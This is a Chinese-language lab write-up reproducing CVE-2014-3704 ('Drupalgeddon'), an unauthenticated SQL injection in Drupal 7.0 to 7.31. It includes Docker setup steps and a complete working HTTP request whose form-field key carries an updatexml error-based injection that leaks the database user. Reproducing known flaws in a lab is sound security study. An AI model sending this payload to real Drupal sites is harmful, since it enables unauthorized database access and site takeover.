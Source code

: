 # CVE-2014-3704 Drupal < 7.32 “Drupalgeddon” sql注入漏洞

### 一、漏洞简介

Drupal 是一款用量庞大的CMS，其7.0~7.31版本中存在一处无需认证的SQL漏洞。通过该漏洞，攻击者可以执行任意SQL语句，插入、修改管理员信息，甚至执行任意代码。

### 二、漏洞影响

Drupal 7.0~7.31

### 三、复现过程

**漏洞环境**

执行如下命令启动Drupal 7.31环境：


```bash
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到Drupal的安装页面，使用默认配置安装即可。

其中，Mysql数据库名填写drupal，数据库用户名、密码为root，地址为mysql：

![](images/15889984376341.png)


安装完成后，访问首页：

![](images/15889984470917.png)


**漏洞复现**

该漏洞无需认证，发送如下数据包即可执行恶意SQL语句：


```bash
POST /?q=node&destination=node HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 120

pass=lol&form_build_id=&form_id=user_login_block&op=Log+in&name[0 or updatexml(0,concat(0xa,user()),0)%23]=bob&name[0]=a
```

可见，信息已被爆出：

![](images/15889984675897.png)


参考链接

https://vulhub.org/#/environments/drupal/CVE-2014-3704/